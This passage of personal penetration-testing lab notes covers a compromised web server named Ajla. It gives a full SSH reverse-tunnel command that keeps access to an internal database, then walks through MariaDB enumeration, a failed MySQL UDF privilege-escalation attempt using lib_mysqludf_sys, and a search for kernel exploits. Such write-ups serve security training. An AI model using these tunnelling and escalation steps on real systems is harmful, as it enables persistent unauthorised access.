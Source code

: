 	5. Next, add a couple of flags to the SSH command to ensure it works as intended.  **-N** to specify no commands, **-f** to request SSH go to the background, and **-i** to provide the key file. In your shell, the command you run will look like this : 
			**ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4** 
	6. At this point, make sure the ports are open with **sudo netstat -tulpn**.  Th eend result is, even if our shell dies we still have remote acces to the DB server through the remote utnnel.

# Targeting the DB

## Enumeration
Time to connect to the DB and start enumerating
1. Using our reverse tunnel, we run **mysql --host=127.0.0.1 --port=13306 --user=wp -p** and enter the DB password we enumerated with prompted.
2. Use **SHOW Grants;** to understand our permissions *note the semicolon to close the command*
3. use **show variables;** to see what else may be important.  We note that the #hostname is *"zora"* and that the *plugin_dir* is set to **/home/dev/plugin/**
4. A quick search of Searchsploit turns up nothign for #MariaDB.  That said, **searchsploit mysql** turns up several results of interest; we need to look for commonalities since MySQL and MariaDB use different version numbers.  "UDF" and "User Defined" show up a lot, so we pick one of those and investigate a bit deeper.
	- Diving into the script, it is essentially only running 5 commands.  They are : ![[Pasted image 20221110162050.png]] 
	- Theoretically, we should be able to run these directly in the interctive mariaDB shell that we already have.

## Attempting to Exploit the DB
The reference in the exploit we looked at state that **raptor_udf.c** was used.  We google that and find an ExploitDB entry.  The comments at the bottom of that point to a #GitHub project, which we **git clone** and study the .c file.
1. Looking at the **install.sh** file, we see a pre-req for *libmysqlclient15-dev*, so we **apt install default-libmysqlclient-dev** 
2. Looking at the **Makefile**, we need to adjust the include directory path for the **gcc** command since we have a MariaDB installation, not a MySQL. 
3. The second command above references binary 0xshellcode into dumpfile, so we set the file as a hexdump.  using the command **`xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex`** 
4. We try to execute the exploit, but fail on the 2nd command because we don't have the required permissions.
5. Why we failed
	- We have the permissions to run the commands, but the wp user is missing the *FILE* permissions to be allowed to run *dumpfile*. We can't move forward on this path, and so we go back to user Ajla (initial compromise) and try to find root MariaDB credentials.

# Deeper enumeration of the webapp server 
We'll start with concentrating our enumeration efforts on #privilege_escalation from the *www-data* user, then move to searching for MariaDB creds

## More thorough #post-exploitation 
1. Start by running **netstat -tulpn** to see if any interesting processes are running.  There are not, in this case, so we check for kernel-level exploits using **uname -a**. 
2. We get the kernel version and drop it into searchsploit. We see one that catches our eye, so we searchsploit **-m**, then review the source code. 
3. Ajla does not have the **gcc** binary installed - this means we'll need to #compile the exploit on the Kali machine, then transfer it to Ajla.
